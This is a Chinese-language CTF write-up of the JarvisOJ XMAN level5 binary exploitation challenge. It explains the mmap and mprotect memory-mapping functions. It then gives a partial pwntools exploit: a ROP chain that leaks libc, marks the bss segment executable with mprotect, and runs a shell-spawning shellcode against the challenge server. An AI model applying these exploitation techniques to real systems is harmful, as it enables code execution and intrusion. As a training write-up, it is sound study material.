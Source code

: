 ```yaml
---
title: JarvisOJ——XMANlevel5题解
date: 2018-08-14 09:52:00
tags:
- CTF
categories:
- CTF
---
```


## 一、问题要求 ##

![题目要求](/assets/img/xmanlevel5.jpg)

mmap、mprotect函数并不熟悉，以下介绍在POSIX环境[补充1]使用文件映射IO操作的方法。

文件映射IO又被称为存储映射IO，对于普通文件而言，很多时候它是高效的，它实际减少了数据的复制；同时它也可以用于特殊的地方，用于进程之间的通信，共享内存的一种方式。

把一个文件想象成一块连续的数据，从纯粹的数据角度来看，任何普通文件都可以这么理解。**文件映射实际上是把文件的这块数据与我们程序里的一块内存对应上，使用我们操作这块内存的时候，看上去实际在操作这个文件**。这就是文件映射的概念。这个概念很伟大，它直接避免了内核与用户之间的一层数据复制，所以很多时候，它会比其它方式的文件操作更快一些，尤其对于普通的磁盘文件而言更是如此。

### 1.创建映射区：mmap ###

我们通过**函数mmap来告诉操作系统把哪个文件映射哪块内存去[创建虚拟存储器区域，将对象映射到这个区域中]**，并且设置我们可能对这块内存的操作，就是对文件一样。

    #include<sys/mman.h>
    void* mmap(void* addr, size_t len, int port, int flag, int filedes, off_t off)

返回值：**成功返回被映射的内存地址**，失败返回MAP_FIALED

参数 addr

> 这个只有在极少数情况下才不为0，这个参数告诉内核使用addr指定的值来映射指定文件的起始地址。当指定为0的时候，告诉内核返回什么地址内其自身决定。**除非非常了解系统进程模式，或者对当前环境非常了解，否则的话手工指定这个值总是不可取**。

参数 len

指定被映射的内存区域的长度。

参数 port

> 这个参数对应open函数的**权限位**，我们可以指定为：PROT_READ，映射区可读；PROT_WRITE，映射区可写；PROT_EXEC，映射区可执行；PROT_NONE，映射区不可访问。由于只能映射已经打开的文件，所以**这个权限位不能超出open函数指定的权限**，比如说在open的时候指定为只读，那就不能在此时指定PORT_WRITE。

参数 flag

这个参数指定了映射区的**其它一些属性**，权限的属性已经在port中指定。这里可能存在的典型值有：MAP_ FIXED，针对addr属性，如果指定这个位，那么要求系统必需在指定的地址映射，这往往是不可取的；MAP_ SHARED，此标志说明指定映射区是共享的，意思就是说对内存的操作与对文件的操作是相对应的，它不能与MAP_ PRIVATE标志一直使用，因为它们表达的意图是相反的；MAP_ PRIVATE，该标志说明映射区是私用的，此时被映射的内存只能被当前里程使用，当进程操作的内存将会产生原文件的一个副本。


参数fd：有效的文件描述符。一般是由open()函数返回，其值也可以设置为-1，此时需要指定flags参数中的MAP_ANON,表明进行的是匿名映射。
off_toffset：被映射对象内容的起点。

![mmap函数](/assets/img/mmap.jpg)

### 2.设置与同步映射区：mprotect、msync ###

**在mmap中我们有很多选项来控制最后得到的映射区的一些属性，在调用mmap函数之后，仍然可以对其中的一些属性进行调整，这通过mprotect函数完成**。

此外在我们**更新了内存的内容之后，这时可能想把这些内容同步到磁盘中的文件，这通过msync函数来完成**。

△mprotect 函数可以更改一个已经存在的映射区的访问权限。

    #include<sys/mman.h>
    int mprotect(void* addr, size_t len, int port)

- 返回值：成功返回0，失败返回-1
- 参数 addr
	- **这个参数是mmap返回的数值**，此时它就是mprotect作用的范围
- 参数 len
	- 指定映射区的长度，它需要与mmap中指定相同。
- 参数 port
	- 在上面我们已经介绍了port的可能取值，mprotect功能就是把这个port指定的属性施加于相应的映射区上。

在映射区的内容更新了，**内核并不是实时同步映射区与文件的，相反内核很少主动去同步，除非我们调用了函数msync**或者关闭映射区（关闭映射区的时候，也不是立即同步的）。


## 二、解题思路 ##

这题也可以用level3_x64的解法，但是题目要求了要用mmap/mprotect。那么就试一试

具体的思路是：

- 分配一块内存buff并设置这块内存属性为rwx[改为７即可读可写可执行]
- 调用read从stdin读取shellcode到内存buff中
- 跳转到buff中执行shellcode

这块buff的来源：

- ①可以用bss段[本身不可执行]+mprotect分配可执行权限
	- 泄露获取libc->通过偏移量相同得到mprotect函数真实地址–>获取到mprotect函数来改写bss段的权限–>把shellcode写入到bss段–>执行bss段的内容。
- 或者②用mmap分配得到
	- 泄露获取libc->通过偏移量相同得到mmap函数真实地址–>使用mmap设定buff长度及权限，成功调用返回的地址A作为buff首地址–>把shellcode写入到A地址处–>执行A地址的内容

## 三、解题步骤 ##

这里**使用第一种思路，而不使用mmap，在于mmap要设置6个参数，实在不容易，而mprotect只需要设置3个参数**[手工指定addr为bss段首地址]。

这里的write[泄露libc，获得write真实地址]/read[写入shellcode]/mprotect[设置bss段权限]都要使用到3个参数，所以ROPgadget工具找到的ROP链不够设置，故需要使用通过的gadgets。

注意：__ libc_ csu_ init函数的通用gadget中call *%12，是间接调用，所以泄露出的mmap和mprotect的真实地址，不能直接放入%r12[call %12才可以这样]。而是需要先调用read函数将mmap和mprotect的真实地址写入内存地址M处，然后将%12设置成地址M.
这样call *%12 = call M地址下的内容 = call mmap和mprotect的真实地址。

这里调用read写入时，可以顺带将shellcode一起写入。

> shellcode=p64(mprotect_addr/mmap_addr)+asm(shellcraft.amd64.sh())


    from pwn import *
    context(arch='amd64',os='linux')
    context.log_level="debug"
    #p=process("./level3_x64")
	p = remote("pwn2.jarvisoj.com",9884)
    libc=ELF("./libc-2.19.so")
    elf=ELF("./level3_x64")

### 1.write函数打印/泄露write_got值 ###

使用ROPgadget工具获得ROP链，具体参考[JarvisOJ——XMANlevel3_x64题解]()。

    rop1=0x00000000004006aa
    rop2=0x0000000000400690
    main_addr=0x000000000040061A
    
    #raw_input()
    payload="A"*0x88+p64(rop1)+p64(0)#rbx
    payload+=p64(1)+p64(elf.got["write"])#rbp,r12
    payload+=p64(8)+p64(elf.got["write"])+p64(1)#rdx,rsi,rdi
    payload+=p64(rop2)+'A'*56+p64(main_addr)

2.通过偏移量相等，确定mprotect函数的真实地址


3.使用read函数将shellcode写入bss段

4.使用mprotect函数将bss段中存有shellcode的部分设置权限为rwx。

**注意点：**mprotect的第一个参数addr标识要写的内存页的首地址[一般来自于mmap，否则容易失败]。内存是要求是以页为单位访问。一页是４kb也就是0x1000字节所以mprotect的第一个参数必须是0x1000的倍数，并且又要包含bss段，所以设置为0x600000。第二个参数标识要设置的权限的地址的范围，也是页大小为单位，能包含bss段的最小范围，故设置为0x1000。

![根据bss设置addr和len参数](/assets/img/bss5.jpg)

获取Linux 内存页（基页）大小的命令：

> getconf PAGE_SIZE 

![Linux 页大小](/assets/img/page5.jpg)

故payload应该实现mprotect(0x00600000,0x1000,0x7)

## 四、补充 ##

POSIX:可移植操作系统接口（Portable Operating System Interface of UNIX，缩写为 POSIX ），POSIX标准**定义了操作系统应该为应用程序提供的接口标准**，POSIX 并**不局限于 UNIX**，还有许多其它的操作系统，例如 DEC OpenVMS 支持 POSIX 标准
